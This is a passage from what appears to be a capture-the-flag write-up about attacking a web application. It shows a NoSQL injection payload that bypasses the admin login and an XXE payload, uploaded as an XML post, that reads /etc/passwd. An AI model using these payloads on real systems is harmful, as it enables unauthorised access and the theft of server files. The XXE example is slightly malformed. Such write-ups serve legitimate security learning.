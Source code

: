Some simple sql and nosql auth bypasses didn't yield expected
results, but one of them did, along with changing Content-Type
to application/json, which is accepted by page without problems:  

```json
{
    "user":"admin",
    "password":{
        "$ne":"admin"
    }
}
```

Seems this page is vulerable to nosql injection, as above payload
gives us access to admin page:   

![](images/admin.jpg)

# Read source code

After trying to upload "posts", which are just xml files of exact
structure, we discover XXE vulnerability, granting us arbitrary file read,
with following payload:

```xml
<!DOCTYPE test [
    <!ENTITY example SYSTEM "file:///etc/passwd"
]>

<post>
    <title>test</title>
    <description> &example; </description>
    <markdown>test</markdown>
</post>
```
